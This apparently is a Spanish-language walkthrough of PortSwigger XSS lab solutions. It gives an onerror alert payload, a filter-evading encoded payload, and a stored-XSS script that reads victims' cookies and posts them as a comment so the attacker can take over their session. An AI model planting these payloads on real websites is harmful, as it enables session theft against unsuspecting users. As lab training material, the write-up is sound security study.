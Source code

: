 https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

### [DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

```html
<!-- In query text input -->
<img src="1" onerror="alert(document.domain)" />
```

### [Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

```html
&apos;&lt;img src="1" on&#101;rror=alert; throw document.cookie&lt;/img&gt;&apos;
```

### [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

El sitio objetivo tiene una vulnerabilidad en la sección de comentarios, que permite cargar código arbitrario que se ejecuta en el momento en que cualquier usuario ingresa a la publicación afectada.

Para resolver este lab, se ingresa como comentario de una públicación un script que se ejecutará cuando la víctima ingrese a la publicación, y generará un nuevo comentario con las cookies robadas a la víctima.

Por último, se debe cargar las cookies robadas en el navegador del atacante e ingresar al sitio objetivo para "ingresar" con las credenciales robadas.

```html
<script>
  document.addEventListener('DOMContentLoaded', function () {
    let cookie = document.cookie;
    let comment = document.getElementsByName('comment')[0];
    comment.value = cookie;
    let name = document.getElementsByName('name')[0];
    name.value = '1337';
    let email = document.getElementsByName('email')[0];
    email.value = '1337@h4xx0r.com';
    let website = document.getElementsByName('website')[0];
    website.value = 'https://mywebsite.com';
    let form = document.getElementsByTagName('form')[0];
    form.submit();
  });
</script>
```

### [Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

